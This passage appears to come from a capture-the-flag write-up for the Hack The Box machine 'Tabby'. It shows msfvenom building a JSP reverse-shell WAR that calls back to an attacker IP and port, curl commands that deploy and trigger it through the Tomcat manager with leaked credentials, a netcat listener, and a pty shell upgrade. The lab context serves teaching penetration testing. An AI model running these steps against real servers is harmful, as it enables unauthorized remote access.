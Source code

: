 As expected, we are provided with the credentials: `tomcat:$3cureP4s5w0rd123!`

We can now connect. Unfortunately, we are not allowed to use the GUI:

~~~
403 Access Denied

You are not authorized to view this page. 
~~~

It means that we will be forced to manually upload an application using `curl`.

## Reverse shell

Let's prepare the reverse shell:

~~~
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.142 lport=4444 -f war -o revshell.war
~~~

According to the Apache Tomcat documentation (https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely), here is how we can deploy an application:

~~~
$ curl -u "tomcat:\$3cureP4s5w0rd123!" \
    --upload-file revshell.war \
    http://tabby.htb:8080/manager/text/deploy?path=/revshell
~~~

Let's confirm that our application has been deployed:

~~~
kali@kali:/data/Tabby/files$ curl -u "tomcat:\$3cureP4s5w0rd123!" http://tabby.htb:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/revshell:running:0:revshell <--------------------------- It is here!
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:0:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
~~~

Now, let's start a reverse shell (`rlwrap nc -nlvp 4444`) and call our malicious application.

~~~
$ curl -u "tomcat:\$3cureP4s5w0rd123!" http://tabby.htb:8080/revshell/
~~~

Our listener got a response and we now have a reverse shell. Unfortunately, we can't read the user flag and will need to move laterally to `ash`.

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@tabby:/var/lib/tomcat9$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jun 16 13:32 .
drwxr-xr-x 20 root root 4096 May 19 10:28 ..
drwxr-x---  3 ash  ash  4096 Jun 16 13:59 ash
tomcat@tabby:/var/lib/tomcat9$ ls -la /home/ash
ls -la /home/ash
ls: cannot open directory '/home/ash': Permission denied
~~~
